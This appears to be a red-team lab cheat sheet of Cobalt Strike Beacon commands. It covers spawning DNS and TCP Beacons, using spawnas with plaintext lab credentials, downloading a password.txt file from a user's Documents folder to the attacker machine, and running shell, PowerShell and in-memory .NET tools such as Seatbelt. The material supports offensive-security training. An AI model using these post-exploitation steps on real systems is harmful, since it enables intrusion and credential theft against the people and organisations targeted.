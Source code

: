 # Kill Chains

## Session Passing <a href="#session-passing" id="session-passing"></a>

### spawn <a href="#spawn" id="spawn"></a>

1. Use the spawn command to run a new DNS Beacon.
   1. `spawn x64 dns`

### spawnas <a href="#spawnas" id="spawnas"></a>

1. Spawn a TCP Beacon using alternate credentials.
   1. `spawnas CONTOSO\rsteel Passw0rd! tcp-local`

## File System <a href="#file-system" id="file-system"></a>

1. Change Beacon's working directory to the user's Documents folder.
   1. `cd C:\Users\pchilds\Documents`
2. Confirm the new current working directory.
   1. `pwd`
3. List the directory.
   1. `ls`
4. Download the _password.txt_ file.
   1. `download password.txt`
5. Sync the file to the Attacker Desktop.
   1. Go to **View > Downloads**.
   2. Select password.txt.
   3. Click **Sync Files**.
   4. Save the file to your desktop.
6. Open the file in Notepad.

## Execution Commands <a href="#execution-commands" id="execution-commands"></a>

1. Run a command via cmd.exe.
   1. `shell whoami /user`
2. Run a command via powershell.exe.
   1. `powershell $env:computername`
3. Run a command via unmanaged powershell.
   1. `powerpick $env:computername`
4. Run a .NET assembly in memory.
   1. `execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe AntiVirus`
5. Run a BOF
   1. `ipconfig`
